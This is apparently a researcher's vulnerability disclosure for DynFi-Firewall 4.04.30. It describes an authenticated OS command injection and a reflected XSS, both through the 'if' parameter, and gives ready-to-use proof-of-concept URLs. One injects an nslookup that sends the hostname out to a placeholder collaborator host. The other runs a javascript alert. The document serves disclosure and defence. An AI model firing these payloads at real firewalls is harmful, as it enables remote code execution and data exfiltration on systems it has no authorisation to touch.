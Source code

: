 DynFi-Firewall 4.04.30 contains an authenticated OS command injection vulnerability in its Suricata alert download endpoint. An administrator can supply arbitrary shell metacharacters via the if parameter (e.g. if=vtnet0&nslookup $(uname -n).<COLLABORATOR>&'\"), which is passed unchecked into a system call. This allows execution of arbitrary commands on the firewall with the same privileges as the web service (typically root or highly privileged). Exploitation can lead to full remote code execution, data exfiltration, or lateral movement within the network. The root cause is the lack of input validation and improper escaping of user-controlled data in backend command invocation.

Vulnerability: OS Command Injection / RCE

Version: ```DynFi-Firewall-4.04.30```

Authenticated: ```Yes```

User: ```Administrator Level```

Vulnerable Parameter: 
```if```

Payload:

```Replace with your collaborator```

```http://192.168.124.34/ui/suricata/alerts/download?if=vtnet0%26nslookup%20$(uname%20-n).<REPLACE ME>.&%27%5C%22```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/DynFi-Firewall-4.04.30-RCE-via-if-parameter.gif?raw=true)



Vulnerability: Reflected XSS

Version: ```DynFi-Firewall-4.04.30```

Authenticated: ```Yes```

User: ```Administrator Level```

Vulnerable Parameter: 
```if```

Payload:
```http://192.168.124.34/firewall_rules_edit.php?if=%27%3bjavascript:alert(123)%2f%2f```

Requires Interaction: ```Yes```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/DynFi-Firewall-4.04.30-Reflected-XSS-via-if-parameter.gif?raw=true)
